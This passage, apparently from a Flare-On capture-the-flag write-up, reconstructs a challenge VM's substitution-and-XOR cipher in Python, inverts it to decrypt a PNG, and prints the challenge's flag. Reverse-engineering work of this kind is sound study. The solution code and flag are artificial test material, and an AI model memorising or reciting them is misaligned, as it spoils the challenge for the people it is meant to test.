  return ret

def CPU4(cpu3_r3): 
  Acc = cpu3_r3
  ret  = ROM2[Acc - 200]
  
  return ret

def CPU5(cpu1_r2):
  global i_3

  Acc = ord(ROM3[i_3])
  
  if i_3 & 1 == 1:
    Acc ^= 0xFF
  
  i_3 += 1
  if i_3 == len(ROM3):
    i_3 = 0    

  Acc ^= cpu1_r2

  return Acc
```

Let's write it in a more compact form:
```python
Output = []
i_3 = 0

for inp in Input:
  if inp > 99:
    if inp > 199:    
      b = ROM2[inp - 200]
    else:    
      b = ROM1[inp - 100]
  else:
    b = ROM0[inp]
     
  Acc = ord(ROM3[i_3])
  if i_3 & 1 == 1:
    Acc ^= 0xFF 

  i_3 = i_3+1 if i_3+1 < len(ROM3) else 0
  Acc ^= b

  if Acc > 99:
    if Acc > 199:    
      Dat = ROM2[Acc - 200]
    else:    
      Dat = ROM1[Acc - 100]
  else:
    Dat = ROM0[Acc]
  
  if Dat & 128 == 128:
    Dat ^= 66
  b = Dat ^ 0xFF

  Output.append(b)
```

Now it is fairly easy to understand: The VM reads an input byte, it substitutes it, then
it XORs it with the next byte from `a11_mY_hom1es_h4t3_b4rds` string and then substitutes it again.

### Breaking the Code

Since we know the encryption algorithm is trivial to inverse it. All we have to do, is to inverse
the substitution and return the corresponding index. The XOR stays the same:
```python
def inv_substitute(x):
  if x in ROM0:
      return ROM0.index(x)
  elif x in ROM1:
      return 100 + ROM1.index(x)
  elif x in ROM2:
      return 200 + ROM2.index(x)

  raise Exception('Not found in ROM')

for i, out in enumerate(Output):  
  Dat = out ^ 0xFF

  if Dat & 128 == 128:
      Dat ^= 66   # 66 doesn't affect the MSBit

  Acc = inv_substitute(Dat)

  rom_3 = ord(ROM3[i % 24])
  if i & 1 == 1:
      rom_3 ^= 0xFF 
    
  Input.append(inv_substitute(Acc ^ rom_3))
```

This algorithm is fairly simple and it may be possible to do a known plaintext attack since we
know some bytes (at least the first **8**) from the PNG header and we also know that `ROM3`
is only 24 bytes long.

We already know that the input was a PNG image, so we reuse the
[wizardcult_crack.py](./wizardcult_crack.py) script to decrypt it. :


Which gives us the flag: `wh0_n33ds_sw0rds_wh3n_you_h4ve_m4ge_h4nd@flare-on.com`
___
